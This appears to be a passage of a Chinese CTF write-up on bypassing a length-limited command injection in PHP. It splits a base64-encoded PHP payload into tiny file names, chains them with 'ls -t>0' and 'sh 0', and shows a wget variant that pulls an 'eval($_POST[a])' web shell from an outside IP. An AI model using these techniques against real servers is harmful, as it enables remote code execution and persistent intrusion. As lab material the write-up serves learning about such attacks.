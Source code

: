 想到1=ls >0,能否有办法写入个shell呢?

	我们把一条长的命令拆分为多个小段，把每一段都存为文件名，然后用 1=ls >a,创建文件a，执行a来getshell。

假设我们要写入`<?php echo phpinfo();` ，转换成Base64编码形式就是

	echo PD9waHAgcGhwaW5mbygpOw== | base64 -d >1.php

倒叙新建文件名，然后通过`ls -t>0`，将刚才的顺序再倒序然后写入到0文件中，然后用sh将0当作脚本执行。

准备文件txt,内容：

```
>hp
>1.p\\
>d\>\\
>\-\\
>\ \\
>e64\\
>bas\\
>=\|\\
>w=\\
>gpO\\
>mby\\
>aW5\\
>Ghw\\
>Agc\\
>waH\\
>PD9\\
>o\ \\
>ech\\
```

在burp抓包写入，(菜鸟不会写py脚本，呜呜呜)

![d1v7nO.png](https://s1.ax1x.com/2020/08/19/d1v7nO.png)

![d1vbHe.png](https://s1.ax1x.com/2020/08/19/d1vbHe.png)

之后`1=ls -t`查看一下，显示

	ech\ o \ PD9\ waH\ Agc\ Ghw\ aW5\ mby\ gpO\ w=\ =|\ bas\ e64\ \ -\ d>\ 1.p\ hp index.php 

将这些文件名写入文件，执行

	1=ls -t>0

之后用sh命令执行，

	1=sh 0

![d1xUKK.png](https://s1.ax1x.com/2020/08/19/d1xUKK.png)

可以看到已经成功写进去了。


还可以利用`wget`方法构造。`wget xx.xx.xx.xx -O 1.php`,前提在xx.xx.xx.xxIP或者域名下，编辑index网页，我编辑的是这样

```
<?php
echo "<?php eval(\$_POST[a]);";

```
